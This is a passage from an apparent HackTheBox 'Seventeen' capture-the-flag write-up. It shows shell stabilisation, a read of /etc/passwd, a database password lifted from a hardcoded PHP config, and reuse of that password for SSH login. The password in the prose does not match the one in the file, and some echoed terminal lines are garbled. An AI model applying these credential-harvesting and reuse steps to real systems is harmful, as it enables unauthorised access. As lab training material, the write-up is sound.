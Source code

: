 I'll stabilize my shell:
> python -c 'import pty; pty.spawn("/bin/bash")'

> export TERM=xterm


For users: 
```
www-data@c5d1cc2e5e93:/var/www/html/oldmanagement/files/31235$ cat /etc/passwd | grep sh$
 grep sh$passwd |
root:x:0:0:root:/root:/bin/bash
mark:x:1000:1000:,,,:/var/www/html:/bin/bash
```

After some time with checking files for leaking passwords, we got `got2020bestyearofmylife` password in `/var/www/html/employeemanagementsystem/process/dbh.php`

```
www-data@c5d1cc2e5e93:/var/www/html/employeemanagementsystem$ cat process/dbh.php
pat process/dbh.php
<?php

$servername = "localhost";
$dBUsername = "root";
$dbPassword = "2020bestyearofmylife";
$dBName = "ems";

$conn = mysqli_connect($servername, $dBUsername, $dbPassword, $dBName);

if(!$conn){
        echo "Databese Connection Failed";
}

?>
```

And we can ssh as mark with this password!

```
$ssh mark@seventeen.htb
The authenticity of host 'seventeen.htb (10.10.11.165)' can't be established.
ECDSA key fingerprint is SHA256:9yQJzo3BRPcH9ll7nS2DgdbYMIsKNYFqYfpACm2s9A8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'seventeen.htb' (ECDSA) to the list of known hosts.
mark@seventeen.htb's password:
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-177-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Sep 30 00:17:47 UTC 2022

  System load:                    0.0
  Usage of /:                     60.1% of 11.75GB
  Memory usage:                   50%
  Swap usage:                     0%
  Processes:                      367
  Users logged in:                0
  IP address for eth0:            10.10.11.165
  IP address for br-b3834f770aa3: 172.18.0.1
  IP address for br-cc437cf0c6a8: 172.19.0.1
  IP address for br-3539a4850ffa: 172.20.0.1
  IP address for docker0:         172.17.0.1


18 updates can be applied immediately.
12 of these updates are standard security updates.
```